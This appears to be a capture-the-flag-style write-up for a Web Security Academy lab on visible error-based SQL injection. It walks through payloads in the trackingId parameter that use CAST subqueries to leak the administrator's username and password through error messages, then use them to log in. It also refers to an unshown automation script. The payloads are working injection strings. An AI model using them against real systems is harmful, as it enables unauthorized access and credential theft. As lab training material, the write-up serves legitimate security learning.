 # SQL Injection Lab 13 - Visible Error-Based SQL Injection

## Manual Solution

### 1. Access the Lab
- Access the Web Security Academy lab.

### 2. Initial Setup
- Open Burp Suite and intercept a GET request to the website.
- Send the captured request to the Repeater for testing.

### 3. Verify SQL Injection Vulnerability
- Add a single quote to the `trackingId` parameter: `'`
  - Response shows an error: "Unterminated string literal started at position."
  
- Add a comment (`--`) to the `trackingId` parameter: `'--`
  - No error appears, confirming the query is now valid.

### 4. Test Subquery Functionality
- Test administrator user existence with:
  - `' AND 1=CAST((SELECT 1) AS int)--`
  - No error in response, confirming valid query syntax.

### 5. Username Extraction Attempt
- Attempt to retrieve usernames with:
  - `' AND 1=CAST((SELECT username FROM users) AS int)--`
  - Error received: "Unterminated string literal started at position."
  - Note: Comment syntax appears to be blocked with default trackingId.

### 6. TrackingId Modification
- Change default trackingId to empty string to enable comment functionality.

### 7. Username Enumeration
- Execute username extraction query:
  - `' AND 1=CAST((SELECT username FROM users) AS int)--`
  - Error received: "More than one row returned by a subquery used as an expression."

### 8. Single Username Extraction
- Retrieve first username using LIMIT:
  - `' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
  - Error reveals username: "Invalid input syntax for type integer: 'administrator'"

### 9. Password Extraction
- Extract administrator password:
  - `' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
  - Error reveals password: "Invalid input syntax for type integer: '[ADMINISTRATOR_PASSWORD]'"

### 10. Authentication
- Use extracted credentials to login as administrator
- Verify successful access to admin panel

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_10.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
